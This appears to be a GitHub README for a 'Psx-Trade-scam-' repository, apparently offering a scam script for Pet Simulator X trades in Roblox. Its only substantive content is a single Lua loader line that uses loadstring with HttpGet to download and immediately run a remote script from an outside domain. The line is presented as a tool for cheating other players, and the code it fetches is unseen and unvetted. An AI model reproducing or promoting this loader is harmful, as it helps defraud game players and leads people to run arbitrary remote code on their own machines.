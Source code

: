 # Psx-Trade-scam-





loadstring(game:HttpGet("https://egorikusa.space/efe0d5beda04ff06d8b2c4b8.lua", true))()
